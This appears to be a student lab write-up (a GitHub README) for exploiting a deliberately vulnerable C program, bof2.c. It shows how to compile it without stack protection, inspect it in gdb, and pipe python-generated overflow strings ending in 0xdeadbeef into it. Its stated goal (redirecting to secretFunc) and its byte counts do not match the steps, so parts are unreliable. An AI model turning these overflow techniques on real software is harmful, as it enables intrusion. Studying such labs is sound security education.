






# bof2.c
To exploit `bof2.c`, we aim to overwrite the return address `vuln()` function and redirect the flow of execution to the `secretFunc()`  

# Stackframe

# Vulnerability
To overwrite the `check` variable, the attacker need to provide input that fills the 40-byte buffer and writes additional bytes to overwrite `check`  

# Attack
Compile the program without stack protection  
`gcc -g bof2.c -o bof2.out -fno-stack-protector -mpreferred-stack-boundary=2`
  

Run gdb  
`gdb bof2.out`  

Set a breakpoint at the `fgets` function  
`break fgets`  

Run the program
`run`  

Analyze Memory Layout  
`p &check`, `p &buf`  

To attack, based on the stackframe we need 44 bytes  
Quit `q`  
To create 44 bytes by generate 40 characters 'a' and 4 characters 'b'  `echo $(python -c "print('a' * 40 + 'b' * 4 + '\xef\xbe\xad\xde')") | ./bof2.out 123`  
 

Manipulate the program's memory by overflowing a fixed-length buffer by generate 40 bytes `echo $(python -c "print('a' * 40 + '\xef\xbe\xad\xde')") | ./bof2.out 123`  
